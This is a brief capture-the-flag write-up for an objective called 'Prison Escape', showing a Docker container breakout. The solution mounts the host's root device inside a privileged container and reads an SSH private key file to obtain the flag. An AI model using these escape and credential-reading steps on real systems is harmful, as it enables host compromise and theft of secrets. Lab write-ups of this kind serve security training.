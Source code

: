 
# Objective 6: Prison Escape
**Location: Elfen Ring / Elf House / Prison Escape Terminal**  
**Hints from Bow Ninecandle**

This objective is about getting familiar with the rest of breaking out of a docker container if the permissions are not set appropriately.
With the below commands, we determine the root filesystem of the system and mount it into the Docker container.
That way we can easily get hold of the flag in the private key file.

```
sudo root
cat /proc/cmdline
panic=1 pci=off ip=dhcp console=ttyS0 reboot=k root=/dev/vda rw virtio_mmio.device=4K@0xd0000000:5 [virtio_mmio.device=4K@0xd0001000](mailto:virtio_mmio.device%3D4K@0xd0001000):6
mkdir /mnt/joergen
mount /dev/vda /mnt/joergen
cat /mnt/joergen/home/jailer/.ssh/jail.key.priv
[...]
082bb339ec19de4935867
```

**082bb339ec19de4935867**

**Achievement: Prison Escape**
